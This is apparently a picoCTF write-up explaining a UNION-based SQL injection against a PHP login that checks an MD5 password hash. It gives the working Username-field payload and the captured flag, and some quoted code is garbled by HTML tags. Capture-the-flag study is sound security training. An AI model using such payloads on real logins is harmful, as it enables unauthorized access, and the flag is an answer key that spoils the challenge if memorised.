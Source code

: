 !@picoCTF Writeup PHP4 - 110
<p>Another albeit, <i>interesting</i> MySQL injection problem. First, lets look at the actual exploitable part of the code:
<pre class="prettyprint">
  $pass = md5($<em>POST[pass]);
  $query = @mysql</em>fetch<em>array(mysql</em>query("select pw from php3 where user='$user'"));
</pre>
As you can see, <code>$pass</code> is being encrypted with MD5. Not really a problem, more of a roadblock. So what can we do in this situation? First off, the natural thing to do is to prevent the execution of the SQL query and inject your own malicious query instead. You could do it several ways, but here is what we came up with:
<pre class="prettyprint">
l33t' and 'haxx'='hacks' union all select 'e1568c571e684e0fb1724da85d215dc0
</pre>
The injection query will have to be placed in the Username field this time, and <code>l33t</code> in Password field.
<br>When doing <code>and 'haxx'='hacks'</code> on the left half of the query, you are essentially making that side evaluate to false, thus removing any sort of reference to it. <code>union all</code> combines the two SQL queries (nothing and the exploit query). Thus, we have what would look like a valid SQL query:
<pre class="prettyprint">
select 'e1568c571e684e0fb1724da85d215dc0
</pre>
Which successfully selects the hashed password <code>l33t</code> into an array.
<pre class="prettyprint">
 if (($query[pw]) &amp;&amp; (!strcasecmp($pass, $query[pw]))) {
</pre>
When the comparison is done, everything is valid and you are successfully able to get the key.
<pre>
Logged in! Key: 50c90a07790d4d0ab7fc7f695cb61d0e
</pre>
So, most certainly, the key is:
<code>
50c90a07790d4d0ab7fc7f695cb61d0e
</code>.